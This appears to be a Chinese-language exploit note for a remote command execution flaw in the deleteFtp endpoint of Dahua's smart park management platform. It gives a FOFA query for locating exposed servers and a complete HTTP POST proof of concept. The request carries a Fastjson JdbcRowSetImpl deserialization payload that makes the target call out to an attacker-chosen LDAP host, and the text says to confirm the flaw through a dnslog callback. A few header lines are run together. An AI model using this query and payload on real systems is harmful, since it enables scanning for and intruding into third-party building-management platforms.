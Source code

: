 # 大华智慧园区综合管理平台 deleteFtp 远程命令执行漏洞

## 大华智慧园区综合管理平台 deleteFtp 远程命令执行漏洞

## fofa
```
body="src=/WPMS/asset/common/js/jsencrypt.min.js"
```

## poc
```
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Host: Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9Cookie: yourCookieConnection: close
Content-Type: application/json
Content-Length: 189

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x","autoCommit":true}}}
```

`ldap://x.x.x.x` 填入dnslog地址 ，发送poc dnslog有请求说明存在漏洞


